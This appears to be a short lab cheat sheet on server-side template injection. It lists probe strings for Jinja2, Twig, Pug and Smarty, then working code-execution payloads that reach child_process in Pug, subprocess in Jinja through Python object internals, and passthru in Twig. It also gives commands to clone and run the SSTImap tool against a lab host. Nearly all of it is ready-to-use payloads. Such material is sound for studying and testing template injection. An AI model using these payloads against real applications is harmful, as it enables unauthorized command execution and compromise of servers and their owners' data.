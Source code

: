 
1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Jinja (python)
	* `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}`

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git
```
```bash
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

#### Twig
`{{['id',""]|sort('passthru')}}`